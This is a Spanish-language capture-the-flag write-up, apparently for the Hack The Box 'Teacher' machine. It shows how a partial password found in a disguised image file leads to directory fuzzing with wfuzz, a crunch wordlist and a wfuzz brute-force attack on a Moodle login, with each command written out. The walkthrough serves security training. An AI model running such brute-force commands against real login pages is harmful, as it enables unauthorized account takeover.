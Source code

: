 Descargaremos la imagen en nuestra maquina para inspeccionarla, Si le hacemos un **File** al archivo, vemos que en realidad, es un archivo de texto:
```ruby
# file 5.png
5.png: ASCII text
```

El archivo contiene un mensaje de **Giovanni** el cual, puede ser un usuario potencial a nivel de sistema o a nivel de web:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

----------------
#### Abusing Moodle - Login BruteForce (Wfuzz)  
El mensaje nos dio una gran pista acerca de una posible contraseña para un usuario de una pagina. Solo nos queda saber para que pagina es valido, asi que podemos tirar de **Gobuster** o **Wfuzz** para encontrar otras rutas a las cuales poder atentar:
```
# wfuzz --hc=404 -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.10/FUZZ
```

Nos encuentra el siguiente directorio:
![[Pasted image 20230817203746.png]]

Si intentamos visitarlo, vemos que nos redirige al siguiente dominio:
![[Pasted image 20230817203800.png]]

Podemos contemplarlo en el **/etc/hosts** para poder visualizar la pagina. Nos estamos enfrentando a un **Moodle**, el cual, se usa en institutos educativos para gestionar algunos aspectos importantes como tareas, asistencias, etc...

Vemos que el inicio de la pagina, nos muestran una publicacion y debajo de ella, viene el nombre de un profesor:
![[Pasted image 20230817203837.png]]

Pues ya tenemos un nombre y una posible contraseña. Con **Crunch** vamos a crear un diccionario que nos ayudara a el proceso de fuerza bruta:
```
# crunch 15 15 -t Th4C00lTheacha^ > diccionario.txt
```

Ahora con **Wfuzz** podemos ejecutar un ataque de fuerza bruta contra el **Login**:
```
# wfuzz -c -t 100 -w Diccionario.txt -d 'anchor=&username=giovanni&password=FUZZ' http://teacher.htb/login/index.php
```
